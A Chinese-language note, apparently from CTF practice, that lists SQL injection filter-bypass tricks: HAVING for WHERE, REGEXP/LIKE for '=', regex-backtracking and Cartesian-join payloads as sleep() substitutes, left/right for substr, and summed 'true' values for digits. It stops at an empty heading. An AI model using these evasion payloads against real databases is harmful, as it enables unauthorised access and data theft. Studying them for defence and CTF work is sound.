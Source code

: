 ## 过滤where

可以使用having

```sql
select goods_price,goods_name from sw_goods where goods_price > 100
select goods_price,goods_name from sw_goods having goods_price > 100
```

解释：上面的having可以用的前提是我已经筛选出了goods_price字段，在这种情况下和where的效果是等效的，但是如果我没有select goods_price 就会报错！！因为having是从前筛选的字段再筛选，而where是从数据表中的字段直接进行的筛选的。

## 过滤=

`REGEXP`、`LIKE`

## 过滤sleep

```sql
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

以上代码等同于 sleep(5)
 但是通过题目测试发现延时很小，所以把timeout也改小点。

利用笛卡尔积来造成延时(因为连接表是一个很耗时的操作)
 AxB=A和B中每个元素的组合所组成的集合，就是连接表

```sql
select count(*) from information_schema.columns A, information_schema.columns B;
```

## 过滤substr

可以用left+right
 `right(left('abcdef',3),1)`等价于`substr('abcdef',3,1)`

```sql
SQL> select lpad('abcde',10,'x') from dual;
LPAD('ABCDE',10,'X')
--------------------
xxxxxabcde
```

## 过滤数字

直接将不可见字符转成ascii
 比如`ascii(‘%01’)=1`

字符c=`char(ture+ture+ture......) (99个true)`

## 过滤information_schema
